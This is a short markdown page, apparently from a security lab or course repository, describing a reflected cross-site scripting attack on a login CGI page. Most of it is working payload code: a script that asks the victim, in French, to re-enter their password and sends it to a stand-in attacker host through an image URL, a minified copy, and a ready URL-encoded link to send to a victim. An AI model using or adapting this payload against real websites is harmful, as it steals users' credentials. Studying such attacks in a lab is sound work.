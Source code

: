 # XSS attack
Here is the script we would like to execute on the victim's machine

    var p = prompt("Veuillez entrez a nouveau votre mot de passe");
    o = document.createElement('img');
    o.setAttribute('src', 'http://www.evil-attacker-website.com/password=' + p);
    document.body.appendChild(o);

This code will prompt for the user's password, create an image with the password in the URL and append it to the body, making the browser send a request to our malicious server that will log the password.

## Minified version

    var p=prompt("Veuillez entrez a nouveau votre mot de passe");o=document.createElement('img');o.setAttribute('src','http://www.evil-attacker-website.com/password='+p);document.body.appendChild(o)

## URL to attack, only work in Firefox:
Send this URL to a victim to start the attack.
This not a permanent XSS attack.
> Replace "localhost" by the server name

http://localhost/cgi-bin/login.cgi?username=%3Cscript%3Evar%20stolenPassword%20=%20prompt(%22Veuillez%20entrez%20%C3%A0%20nouveau%20votre%20mot%20de%20passe%22);o%20=%20document.createElement(%27img%27);o.setAttribute(%27src%27,%20%27http://www.evil-attacker-website.com/password=%27%20+%20stolenPassword);document.body.appendChild(o);%3C/script%3E&password=foobar
